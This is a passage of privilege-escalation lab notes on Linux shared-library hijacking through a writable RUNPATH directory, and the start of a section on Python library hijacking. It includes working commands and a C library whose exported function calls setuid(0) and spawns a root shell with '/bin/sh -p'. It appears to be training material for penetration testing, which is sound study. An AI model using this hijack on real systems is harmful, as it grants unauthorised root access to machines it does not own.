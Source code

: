 directories in RUNPATH variable are given preference over other directories.
```shell
$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
check the directory if it is writable
```shell
ls -la /development/
```
we need to find the function name called by the binary.
```shell
# copy any other library to the directory or compile a program
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
gcc hello.c -fPIC -shared -o /development/libshared.so

./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```
write a library
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

```shell
$ gcc src.c -fPIC -shared -o /development/libshared.so
```
## Python Library Hijacking

**here are three basic vulnerabilities where hijacking can be used:**
- Wrong write permissions
- Library Path
- PYTHONPATH environment variable

### Wrong write permissions

```shell
# check script have setuid 
$ ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py

```
Python Script - Contents
```python
!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
Module Permissions
```shell
$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
```